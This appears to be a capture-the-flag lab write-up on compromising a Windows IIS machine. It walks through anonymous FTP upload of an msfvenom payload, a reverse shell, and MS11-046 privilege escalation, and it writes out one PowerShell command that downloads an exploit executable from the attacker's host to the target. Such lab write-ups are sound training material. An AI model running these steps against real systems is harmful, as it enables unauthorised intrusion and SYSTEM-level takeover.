 # Devel

<h2>Recon</h2>

First lets start with a nmap scan. This will give us some info like open ports.

![scan](https://imgur.com/f2hjZGN.png)

From the nmap scan results we see that port 21 and 80 are open.

- port 21 is used for ftp
    - ftp or file transfer protocol. FTP is used to distribute large files across the web server or to upload files to an online server.

- port 80 is used for Hypertext Transfer Protocol (HTTP)
  - This port is a common one in TCP. It sends and receive requested web page.  



Since port 80 is open lets enter the ip address in the search bar and see what pops up.

![page](https://imgur.com/3EJvO9M.png)



It appears we have some sort of welcome page? At first glance we see IIS7. And if we click the web page we get taken to a microsoft web page that talks about IIS. 

![ms](https://imgur.com/9k3rITd.png)

Next lets take a look at the source code.

![code](https://imgur.com/B7htyOH.png)

Since the site uses IIS we can use this to our advantage. 

<h2>FTP</h2>

From our nmap scan we see that ftp allows Anonymous logins. We use the ftp command in the terminal.

![ftp](https://imgur.com/0Db0sfx.png)

We successfully connected and using `ls` we can see what files.

Using this connection we can put files in the web server.
For example lets put a text file just to test it.

![filetransfer](https://imgur.com/rwQTonr.png)

Now lets call the file from the webpage.

![blah](https://imgur.com/kqDPr0v.png)

Now instead of a txt file lets create a payload using msfvenom. 

![msfvenom](https://imgur.com/p9o3Rg1.png)

And just like the txt file we will put the payload in the server with ftp. And once the we call the file we can see command prompt.

![shell](https://imgur.com/O016Icj.png)

However it seems that access is denied....

![denied](https://imgur.com/O0DqEJu.png)

Seems we need to try some privilege escalation lets take a look at the system information.

![info](https://imgur.com/7syCuit.png)

We see that the OS version is 6.1.7600 N/A Build 7600, using all the information lets look for an exploit. 


<h2>exploit</h2>

After a couple of google searches I found a priv sec exploit.
- [MS11-046](https://www.exploit-db.com/exploits/40564)

> An elevation of privilege vulnerability exists where the AFD
improperly validates input passed from user mode to the kernel. An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability. An attacker who successfully exploited this vulnerability could
run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges).



First we download the MS11-046 from github. 

![github](https://imgur.com/6h6AGpT.png)

Then using powershell and python we can have the target download this exe from our machine.

We will use python http server to send the files and establish a connection. 

<code>

  powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.27:8000/ms11-046.exe', 'c:\Users\Public\Downloads\ms11-046.exe')"

</code>

This command will download the exe to the target, placing it in the download folder.

![server](https://imgur.com/69K0VDx.png)

Our file was sent successfully!!

Now lets change to the download folder and run our exe.

![exe](https://imgur.com/7tL9VBI.png)

It works now all thats left to find the flags. 

![flags](https://imgur.com/hdcIK29.png)